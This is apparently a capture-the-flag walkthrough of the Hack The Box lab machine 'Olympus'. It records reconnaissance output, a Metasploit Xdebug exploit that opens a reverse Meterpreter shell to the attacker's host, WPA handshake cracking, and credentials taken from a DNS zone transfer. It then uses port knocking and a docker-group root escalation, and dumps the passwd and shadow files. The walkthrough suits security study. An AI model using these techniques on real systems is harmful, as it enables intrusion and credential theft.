



# Credentials

|username|password|note|
|----------|---------|------|
|icarus|Too_cl0se_to_th3_Sun|ssh 2222 icarus credentials|
|prometheus|St34l_th3_F1re!|ssh 22 prometheus credentials|
|user.txt|8aa18519aff3c528c46bf675d6e88719|user.txt flag|
|root.txt|aba486990e2e849e25c23f6e41e5e303|root.txt flag|

# NMAP

## TCP

Basic nmap enumeration.

```python
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-17 19:21 CDT
Nmap scan report for 10.10.10.83
Host is up (0.036s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
53/tcp   open     domain  (unknown banner: Bind)
| dns-nsid: 
|_  bind.version: Bind
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    Bind
80/tcp   open     http    Apache httpd
|_http-server-header: Apache
|_http-title: Crete island - Olympus HTB
2222/tcp open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-City of olympia
| ssh-hostkey: 
|   2048 f2:ba:db:06:95:00:ec:05:81:b0:93:60:32:fd:9e:00 (RSA)
|   256 79:90:c0:3d:43:6c:8d:72:19:60:45:3c:f8:99:14:bb (ECDSA)
|_  256 f8:5b:2e:32:95:03:12:a3:3b:40:c5:11:27:ca:71:52 (ED25519)
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port53-TCP:V=7.91%I=7%D=5/17%Time=60A3087F%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,3F,"\0=\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\x
SF:04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x05\x04Bind\xc0\x0c\
SF:0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.91%I=7%D=5/17%Time=60A3087A%P=x86_64-pc-linux-gnu%r(NU
SF:LL,29,"SSH-2\.0-City\x20of\x20olympia\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.47 seconds
```

# Nikto

Nikto find a `xdebug` header.

```bash
$ nikto -h 10.10.10.83
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.83
+ Target Hostname:    10.10.10.83
+ Target Port:        80
+ Start Time:         2021-05-17 19:29:14 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache
+ Uncommon header 'xdebug' found, with contents: 2.5.5
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3233: /icons/README: Apache default file found.
```

# Gobuster

```bash
$ gobuster dir -u 10.10.10.83 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak -o gobuster-root.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.83
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,bak
[+] Timeout:                 10s
===============================================================
2021/05/17 19:27:28 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 314]
```

# Website (80)

`Xdebug 2.5.5` is active on the website.



There is an exploit on this version of `Xdebug` : https://www.exploit-db.com/exploits/44568

```bash
msf6 exploit(unix/http/xdebug_unauth_exec) > set RHOSTS 10.10.10.83
RHOSTS => 10.10.10.83
msf6 exploit(unix/http/xdebug_unauth_exec) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf6 exploit(unix/http/xdebug_unauth_exec) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] 10.10.10.83:80 - Waiting for client response.
[*] 10.10.10.83:80 - Receiving response
[*] 10.10.10.83:80 - Shell might take upto a minute to respond.Please be patient.
[*] 10.10.10.83:80 - Sending payload of size 2026 bytes
[*] Sending stage (39282 bytes) to 10.10.10.83
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.83:59756) at 2021-05-17 19:34:24 -0500
meterpreter >
```

# Shell

A weird file `captured.cap` exists on the `airgeddon` directory.
Let's download it and analyse with wireshark.

```bash
pwd
/home/zeus/airgeddon/captured
ls -la
total 304
drwxr-xr-x 1 zeus zeus   4096 Apr  8  2018 .
drwxr-xr-x 1 zeus zeus   4096 Apr  8  2018 ..
-rw-r--r-- 1 zeus zeus 297917 Apr  8  2018 captured.cap
-rw-r--r-- 1 zeus zeus     57 Apr  8  2018 papyrus.txt
cat papyrus.txt
Captured while flying. I'll banish him to Olympia - Zeus
```

This is a `Tp-Link` router interception. Try to crack his `master key` with `aircrack`.



```bash

                               Aircrack-ng 1.6 

      [00:13:03] 8029012/14344394 keys tested (10406.61 k/s) 

      Time left: 10 minutes, 6 seconds                          55.97%

                        KEY FOUND! [ flightoficarus ]


      Master Key     : FA C9 FB 75 B7 7E DC 86 CC C0 D5 38 88 75 B8 5A 
                       88 3B 75 31 D9 C3 23 C8 68 3C DB FA 0F 67 3F 48 

      Transient Key  : 0C 5C 1C 84 60 FA 34 DE C0 4F 35 F6 4F 03 A2 0F 
                       8F 6F 5E 20 05 27 E1 73 E0 73 F5 F1 2D AF D1 17 
                       8B F8 27 C6 BE 23 E3 70 8A EF 4A CC CA 0B EE 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : AC 1A 73 84 FB BF 75 9C 86 CF 5B 5A F4 8A 4C 38
```

We have a potential user : `icarus`
The `SSID` seems to be a password.



```bash
$ ssh icarus@10.10.10.83 -p 2222
The authenticity of host '[10.10.10.83]:2222 ([10.10.10.83]:2222)' can't be established.
ECDSA key fingerprint is SHA256:uyZtmsYFq/Ac58+SEgLsL+NK05LlH2qwp2EXB1DxlO4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.83]:2222' (ECDSA) to the list of known hosts.
icarus@10.10.10.83's password: Too_cl0se_to_th3_Sun
Last login: Sun Apr 15 16:44:40 2018 from 10.10.14.4
icarus@620b296204a3:~$
```

# Escalation (docker)

We are on a `docker`.
New domain name : `ctfolympus.htb`
Let's try a `domain transfer`.

```bash
$ cat help_of_the_gods.txt 

Athena goddess will guide you through the dark...

Way to Rhodes...
ctfolympus.htb
```

# DNS

```bash
$ dig axfr @10.10.10.83 ctfolympus.htb

; <<>> DiG 9.16.15-Debian <<>> axfr @10.10.10.83 ctfolympus.htb
; (1 server found)
;; global options: +cmd
ctfolympus.htb.		86400	IN	SOA	ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
ctfolympus.htb.		86400	IN	TXT	"prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
ctfolympus.htb.		86400	IN	A	192.168.0.120
ctfolympus.htb.		86400	IN	NS	ns1.ctfolympus.htb.
ctfolympus.htb.		86400	IN	NS	ns2.ctfolympus.htb.
ctfolympus.htb.		86400	IN	MX	10 mail.ctfolympus.htb.
crete.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
hades.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
mail.ctfolympus.htb.	86400	IN	A	192.168.0.120
ns1.ctfolympus.htb.	86400	IN	A	192.168.0.120
ns2.ctfolympus.htb.	86400	IN	A	192.168.0.120
rhodes.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
RhodesColossus.ctfolympus.htb. 86400 IN	TXT	"Here lies the great Colossus of Rhodes"
www.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
ctfolympus.htb.		86400	IN	SOA	ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
;; Query time: 35 msec
;; SERVER: 10.10.10.83#53(10.10.10.83)
;; WHEN: Mon May 17 20:29:30 CDT 2021
;; XFR size: 15 records (messages 1, bytes 475)
```

We have a bunch of domain name.

```bash
ns1.ctfolympus.htb
ns2.ctfolympus.htb
mail.ctfolympus.htb
hades.ctfolympus.htb
crete.ctfolympus.htb
rhodes.ctfolympus.htb
RhodesColossus.ctfolympus.htb
ctfolympus.htb
```

And potential credentials : `prometheus:St34l_th3_F1re!`

We can knock these ports.

```bash
$ nmap 10.10.10.83 -p 22
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-17 20:35 CDT
Nmap scan report for 10.10.10.83
Host is up (0.040s latency).

PORT   STATE    SERVICE
22/tcp filtered ssh

Nmap done: 1 IP address (1 host up) scanned in 0.49 seconds
```

```bash
$ knock -v 10.10.10.83 3456 8234 62431
hitting tcp 10.10.10.83:3456
hitting tcp 10.10.10.83:8234
hitting tcp 10.10.10.83:62431
```

```bash
$ nmap 10.10.10.83 -p 22
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-17 20:36 CDT
Nmap scan report for 10.10.10.83
Host is up (0.036s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

Then, connect to ssh with the previous credentials.

# Escalation (port 22)

```bash
$ ssh prometheus@10.10.10.83
The authenticity of host '10.10.10.83 (10.10.10.83)' can't be established.
ECDSA key fingerprint is SHA256:8TR2+AWSBT/c5mrjpDotoEYu0mEy/jCzpuS79d+Z0oY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.83' (ECDSA) to the list of known hosts.
prometheus@10.10.10.83's password: St34l_th3_F1re!

Welcome to
                            
    )         (             
 ( /(     )   )\ )   (      
 )\()) ( /(  (()/(  ))\ (   
((_)\  )(_))  ((_))/((_))\  
| |(_)((_)_   _| |(_)) ((_) 
| ' \ / _` |/ _` |/ -_)(_-< 
|_||_|\__,_|\__,_|\___|/__/ 
                           
prometheus@olympus:~$
```

Prometheus is in the `docker` group.

```bash
$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
crete               latest              31be8149528e        3 years ago         450MB
olympia             latest              2b8904180780        3 years ago         209MB
rodhes              latest              82fbfd61b8c1        3 years ago         215MB
```

```bash
$ docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                                    NAMES
f00ba96171c5        crete               "docker-php-entrypoi…"   3 years ago         Up About an hour    0.0.0.0:80->80/tcp                       crete
ce2ecb56a96e        rodhes              "/etc/bind/entrypoin…"   3 years ago         Up About an hour    0.0.0.0:53->53/tcp, 0.0.0.0:53->53/udp   rhodes
620b296204a3        olympia             "/usr/sbin/sshd -D"      3 years ago         Up About an hour    0.0.0.0:2222->22/tcp                     olympia
```

We can run `olympia` docker process as root with the following command.

```bash
$ docker run -v /:/root -i -t olympia /bin/bash
root@07abfc9f9938:/# id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag are in `/root/root/root.txt`.

# Passwd file

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
zeus:x:1000:1000::/home/zeus:/bin/bash
```

# Shadow file

```bash
root:*:17590:0:99999:7:::
daemon:*:17590:0:99999:7:::
bin:*:17590:0:99999:7:::
sys:*:17590:0:99999:7:::
sync:*:17590:0:99999:7:::
games:*:17590:0:99999:7:::
man:*:17590:0:99999:7:::
lp:*:17590:0:99999:7:::
mail:*:17590:0:99999:7:::
news:*:17590:0:99999:7:::
uucp:*:17590:0:99999:7:::
proxy:*:17590:0:99999:7:::
www-data:*:17590:0:99999:7:::
backup:*:17590:0:99999:7:::
list:*:17590:0:99999:7:::
irc:*:17590:0:99999:7:::
gnats:*:17590:0:99999:7:::
nobody:*:17590:0:99999:7:::
systemd-timesync:*:17590:0:99999:7:::
systemd-network:*:17590:0:99999:7:::
systemd-resolve:*:17590:0:99999:7:::
systemd-bus-proxy:*:17590:0:99999:7:::
_apt:*:17590:0:99999:7:::
sshd:*:17624:0:99999:7:::
icarus:$6$qtc/HhcZ$SMnPL9GcCV7vXgqNt.E9w5mb.vunWyHwI5Y2.2658KQIamLfhOwHu7guYlBlJS/CuPvigiFr.wcHQgwugmjVC/:17629:0:99999:7:::
```
